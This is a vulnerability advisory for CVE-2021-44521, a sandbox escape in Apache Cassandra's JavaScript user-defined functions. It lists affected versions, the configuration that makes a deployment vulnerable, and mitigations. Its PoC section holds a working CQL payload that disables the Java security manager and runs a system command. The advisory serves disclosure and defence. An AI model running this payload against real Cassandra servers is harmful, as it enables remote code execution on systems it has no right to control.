 ```yaml
---
description: CVE-2021-44521 High severity. Insufficient sandboxing of user-defined functions in Apache Cassandra leads to remote code execution
title: Cassandra UDF RCE
date_published: "2022-02-15"
last_updated: "2022-02-15"
xray_id: XRAY-197962
vul_id: CVE-2021-44521
cvss: 8.4
severity: high
discovered_by: Omer Kaspi
type: vulnerability
---
```

## Summary
Insufficient sandboxing of user-defined functions in Apache Cassandra leads to remote code execution

## Component

[Apache Cassandra](https://cassandra.apache.org/_/index.html)

## Affected versions

[3.0.0-alpha1, 3.0.25], fixed in 3.0.26

[3.1, 3.11.11], fixed in 3.11.12

[4.0-alpha1, 4.0.1], fixed in 4.0.2

## Description

CVE-2021-44521 is an RCE (remote code execution) issue in Apache Cassandra. This Apache vulnerability is easy to exploit and has the potential to wreak havoc on systems, but luckily only manifests in non-default configurations of Cassandra.  

Cassandra deployments are vulnerable to CVE-2021-44521 when the cassandra.yaml configuration file contains the following definitions:

```
enable_user_defined_functions: true
enable_scripted_user_defined_functions: true
enable_user_defined_functions_threads: false
```
A malicious authenticated user can run a trivial (publicly available) SQL query that causes remote code execution, by running JavaScript code in the query that abuses the JavaScript engine (Nashorn) and escapes the security sandbox

## PoC

```
create or replace function x.escape_system(name text) RETURNS NULL ON NULL INPUT RETURNS text LANGUAGE javascript AS $$
var System = Java.type("java.lang.System");System.setSecurityManager(null);this.engine.factory.scriptEngine.eval('java.lang.Runtime.getRuntime().exec("touch hacked")');name $$;
```



## Vulnerability Mitigations

1. If UDFs are not actively used, they can be completely disabled by setting `enable_user_defined_functions` to `false` (which is the default value)
2. If UDFs are needed, set `enable_user_defined_functions_threads` to `true` (which is the default value)
3. Remove the permissions of creating, altering and executing functions for untrusted users by removing the following permissions: `ALL FUNCTIONS`, `ALL FUNCTIONS IN KEYSPACE` and `FUNCTION` for `CREATE`, `ALTER` and `EXECUTE` queries ([see blog post for example query](https://jfrog.com/blog/cve-2021-44521-exploiting-apache-cassandra-user-defined-functions-for-remote-code-execution/))

## References

[(JFrog) CVE-2021-44521: RCE Vulnerability in Apache Cassandra](https://jfrog.com/blog/cve-2021-44521-exploiting-apache-cassandra-user-defined-functions-for-remote-code-execution/)

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-44521)